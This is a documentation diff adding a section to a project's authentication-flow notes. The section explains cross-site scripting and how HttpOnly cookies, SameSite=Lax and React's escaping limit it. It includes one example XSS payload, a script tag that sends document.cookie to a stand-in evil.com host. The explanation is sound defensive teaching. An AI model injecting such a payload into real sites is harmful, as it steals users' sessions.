

Before and after one commit to manikandarajzma/netbrain, a Markdown page: Documentation/End-to-End-flow/panorama.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/Documentation/End-to-End-flow/panorama.md
+++ b/Documentation/End-to-End-flow/panorama.md
@@ -1033,6 +1033,29 @@ The most common trigger is the 30-minute session TTL expiring while the user was
 
 On the frontend, `checkAuthRedirect` detects the 401, immediately sets `window.location.href = '/login'` — the page navigates away — and throws `'Not authenticated'`. The thrown error is caught by the inner try-catch in `chatStore` and falls back to `currentStatus: 'Processing'`, but the navigation has already happened so this is moot.
 
+### What is XSS and why does HttpOnly protect against it?
+
+**XSS (Cross-Site Scripting)** is an attack where malicious JavaScript is injected into a page and runs in the victim's browser, in the context of your origin — meaning it has the same privileges as your own code.
+
+**How the attack works without HttpOnly:**
+
+1. An attacker finds an input that gets rendered unsanitized into the page (e.g. a chat message displayed as raw HTML).
+2. They submit `<script>document.location='https://evil.com/steal?c='+document.cookie</script>`.
+3. When another user views the page, the script runs, reads `document.cookie` (which includes `atlas_session`), and sends it to the attacker's server.
+4. The attacker uses the stolen cookie to make authenticated requests to Atlas — they are now logged in as the victim.
+
+**Why HttpOnly stops this:**
+
+The browser enforces a hard rule: cookies marked `HttpOnly` are never exposed to JavaScript at all. `document.cookie` simply omits them. The injected `<script>` runs fine but gets back an empty string — there is nothing to steal. The cookie still travels in HTTP request headers (that's its entire purpose), but JS code — including attacker-injected code — can never read it.
+
+**What HttpOnly does not protect against:**
+
+HttpOnly only blocks *reading* the cookie from JS. It does not stop an attacker from making requests that *carry* the cookie (the browser still attaches it). That class of attack — making authenticated requests on behalf of the user — is CSRF, which is what `SameSite=Lax` addresses.
+
+**Atlas's exposure:**
+
+Atlas renders chat responses from an LLM. If the LLM ever produced a response containing a `<script>` tag and the frontend rendered it as raw HTML, that would be an XSS vector. React's JSX escapes HTML by default (`dangerouslySetInnerHTML` is not used for chat messages), so injected tags are rendered as literal text — but `HttpOnly` is a second line of defence regardless.
+
 ---
 
 ## Sequence Diagram
```
